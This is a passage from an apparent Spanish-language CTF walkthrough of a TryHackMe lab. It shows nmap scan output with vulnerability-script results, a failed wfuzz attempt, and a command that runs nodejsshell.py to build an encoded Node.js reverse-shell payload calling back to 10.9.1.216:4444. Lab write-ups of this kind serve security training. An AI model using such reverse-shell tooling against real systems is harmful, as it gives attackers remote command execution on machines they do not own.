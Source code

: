 ~~~CSS
|   	}, 500);
|       }); 
|       </script>
|     </div>
|   </div>
|   
|   
|   </body></html>
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3299
|_      http://www.exploit-db.com/exploits/1244/
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=4/22%Time=62635D2C%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,E4B,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/html\r\nDat


Uptime guess: 15.403 days (since Thu Apr  7 11:20:57 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   153.01 ms 10.9.0.1 (10.9.0.1)
2   153.38 ms 10.10.14.228 (10.10.14.228)

NSE: Script Post-scanning.
Initiating NSE at 21:00
Completed NSE at 21:00, 0.00s elapsed
Initiating NSE at 21:00
Completed NSE at 21:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 383.40 seconds
           Raw packets sent: 68318 (3.011MB) | Rcvd: 69728 (3.129MB)
                                                                     
~~~

## 2.1 WFUZZ

- Escaneo con WFUZZ (no funcionó)

---

~~~CSS
┌──(root㉿bogsec)-[/home/…/THM/Jason/exploit/Node.Js-Security-Course]
└─# ./nodejsshell.py 10.9.1.216 4444
[+] LHOST = 10.9.1.216
[+] LPORT = 4444
[+] Encoding
~~~